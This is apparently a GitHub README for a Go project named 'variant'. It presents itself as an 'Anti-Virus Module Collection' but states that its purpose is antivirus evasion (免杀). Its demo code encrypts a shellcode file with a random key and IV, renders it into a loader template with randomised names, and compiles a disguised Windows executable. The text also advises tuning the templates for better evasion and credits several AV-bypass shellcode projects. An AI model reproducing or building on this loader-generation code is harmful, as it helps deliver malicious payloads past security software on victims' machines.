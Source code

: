# variant

Go Anti-Virus Module Collection

## Description

项目`v2`更名为`variant`，现放出Demo

本项目会不断添加各种免杀的技术，但是**不适合直接不做任何修改的编译和使用**，即使是有随机特征的编译

### 特别说明

1. 学习Go免杀的代码集合，顺手做了模块化处理，**实际开发未结束，还在持续更新**；
2. 想要实现最好的免杀效果还需要自行修改渲染编译模板，代码提供了三种加载方式的渲染模板。

### 更新日志

1. 模块化配置
2. 编译功能更新
3. 渲染功能更新

## Demo

```go
package main

import (
	"fmt"
	"strings"
	"variant/build"
	"variant/enc"
	"variant/log"
	"variant/rand"
	"variant/tmpl"
)

func main() {
	// 定义模板渲染数据
	data := tmpl.Data{
		KeyName:    rand.RStrings(),
		KeyValue:   rand.LStrings(16),
		IvName:     rand.RStrings(),
		IvValue:    rand.LStrings(16),
		CipherText: rand.RStrings(),
		PlainText:  rand.RStrings(),
	}

	// 设置加密参数
	params := enc.Payload{
		PlainText: "tmpl/basetmpl/enc.bin",
		Key:       []byte(data.KeyValue),
		IV:        []byte(data.IvValue),
	}
	// 加密之后的 shellcode
	data.Payload, _ = params.EncSetKeyIv()

	// 设置模板的渲染参数
	TOpts := tmpl.TOpts{
		TmplFile:     "tmpl/basetmpl/base.tmpl",
		OutputDir:    "output",
		OutputGoFile: fmt.Sprintf("%s.go", rand.RStrings()),
		Data:         data,
	}
	// 生成模板
	err := tmpl.BuildTmpl(TOpts)
	if err != nil {
		log.Warn(err)
	}

	// 编译参数
	opts := build.COpts{
		GoFileName:    TOpts.OutputGoFile,
		ExeFileName:   fmt.Sprintf("%s.exe", strings.TrimSuffix(TOpts.OutputGoFile, ".go")),
		HideConsole:   false,
		CompileDetail: false,
		CompilePath:   "output",
	}

	// 编译
	if err = opts.Compile(); err != nil {
		log.Fatal(err)
	}
}

```

### Thanks

https://github.com/Ne0nd0g/go-shellcode

https://github.com/safe6Sec/GolangBypassAV

https://github.com/afwu/GoBypass

https://github.com/piiperxyz/AniYa

https://github.com/wumansgy/goEncrypt

https://github.com/TideSec/GoBypassAV

https://github.com/Pizz33/GobypassAV-shellcode

https://github.com/timwhitez/Doge-Gabh

后继添加 ……
